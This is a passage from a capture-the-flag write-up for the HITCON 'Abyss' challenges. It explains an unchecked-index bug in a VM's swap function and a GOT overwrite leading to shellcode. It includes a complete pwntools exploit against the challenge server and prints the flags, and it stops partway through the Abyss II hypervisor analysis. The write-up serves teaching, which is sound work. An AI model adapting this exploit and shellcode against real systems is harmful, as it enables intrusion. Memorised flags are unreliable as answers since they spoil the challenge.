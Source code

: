 # Abyss I II III
## Abyss I
> hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
* NX disable.
* `swap` function doesn't check the index, and the `machine` == `stack[-1]`.
```clike
void swap_()
{
  unsigned int tmp;

  tmp = stack[machine - 1];
  stack[machine - 1] = stack[machine - 2];
  stack[machine - 2] = tmp;
}
```
* We can control the value of `machine` by `swap()`.
```python
p = '31' + 'a' + op['minus']         # -31
p += op['swap']                      # stack point to write.got
p += 'a' + op['store']               # store the high 4 byte
p += str( 2107662 + 70 ) + op['add'] # add offset -> write.got point to our input
p += 'a' + op['fetch']               # recover high 4 byte
p += op['write'],                    # write() to jmp to our shellcode
```
* exploit:
```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    shellcraft.pushstr( 'flag\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )

y.interactive()
```
## Abyss II
> hitcon{take_out_all_memory,_take_away_your_soul}
* `rw((unsigned int)fd_map[fd].real_fd, *(_QWORD *)&vm->mem + buf, len);`
* Where `vm->mem` is our vm phisical address.
* Kernel entry is 0, if we can let `but` == 0, so that  we are able to overwrite the kernel memory.
* Hypervisor will get the return value of kmalloc().
* `Hypercall read handler`:
```clike
vaddr = *(_DWORD *)(vm->run + *(_QWORD *)(vm->run + 40LL));
if ( (unsigned __int64)vaddr >= vm->mem_size )
     __assert_fail("0 <= (offset) && (offset) < vm->mem_size", "hypercall.c", 0x7Eu, "handle_rw");
```